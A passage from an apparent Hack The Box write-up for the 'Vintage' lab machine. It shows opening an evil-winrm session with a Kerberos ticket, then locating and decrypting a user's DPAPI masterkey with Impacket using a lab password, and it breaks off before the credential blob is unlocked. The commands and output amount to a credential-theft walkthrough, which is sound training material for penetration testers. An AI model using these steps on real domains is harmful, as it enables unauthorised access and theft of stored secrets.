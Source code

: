 ```console
# export KRB5CCNAME=C.NERI.ccache
```
Attempting `evil-winrm` through `kerberos realms`:
```console
 # evil-winrm -i dc01.vintage.htb -r vintage.htb

Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\C.Neri\Documents> whoami
vintage\c.neri
```

>[!note] In order to successfully winrm we have to write the domain details in our `/etc/krb5.conf` file.

# C.Neri
Looking around we found `DPAPI` `key` and `protected-data` in `Appdata/Roaming/Microsoft`:
```console
$  dir -h
    Directory: C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          6/7/2024   1:17 PM            740 4dbf04d8-529b-4b4c-b4ae-8e875e4fe847
-a-hs-          6/7/2024   1:17 PM            740 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
-a-hs-          6/7/2024   1:17 PM            904 BK-VINTAGE
-a-hs-          6/7/2024   1:17 PM             24 Preferred
$ dir -h

    Directory: C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          6/7/2024   5:08 PM            430 C4BB96844A5C9DD45D5B6A9859252BA6

```
downloading the `masterkey` from `Protected` and the `protected-data` from `Credentials` and then executing `dpapi` attack to get the key:
```console
# dpapi.py masterkey -file 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b -sid S-1-5-21-4024337825-2033394866-2055507597-1115 -password Zer0the0ne
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
Flags       :        0 (0)
Policy      :        0 (0)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
```
And then using the key to unlock the `Credentials`:
```console
```